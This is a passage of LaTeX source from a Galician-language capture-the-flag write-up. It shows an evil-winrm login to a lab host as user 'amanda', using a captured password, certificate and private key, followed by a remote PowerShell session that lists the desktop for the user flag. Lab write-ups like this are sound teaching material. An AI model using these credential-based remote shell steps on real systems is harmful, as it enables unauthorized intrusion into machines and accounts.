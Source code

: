 \documentclass[a4paper]{article}
\begin{document}
        \clearpage

        Con este cerficado descargado \textbf{certnew.cer} poderemos acceder co usuario \textit{amanda} mediante \textit{winrm}:
        \begin{lstlisting}[language=Bash, caption=Acceso ao sistema]
$ evil-winrm -i 10.10.10.103 -u 'amanda' -p'Ashare1972' -S -P 5986 -c certnew.cer -k priv.key
 
Evil-WinRM shell v3.3
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
 
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Warning: SSL enabled
 
Info: Establishing connection to remote endpoint
 
*Evil-WinRM* PS C:\Users\amanda\Documents> dir\end{lstlisting}



        \clearpage
        \section{Movemento lateral}
        \vspace{0.2cm}
        Revisamos se conseguimos a flag user.txt onde se espera \textit{-no cartafol desktop do usuario-}:
        \begin{lstlisting}[language=Bash, caption=Desktop]
*Evil-WinRM* PS C:\Users\amanda\Documents> dir ..\desktop --force\end{lstlisting}
\end{document}

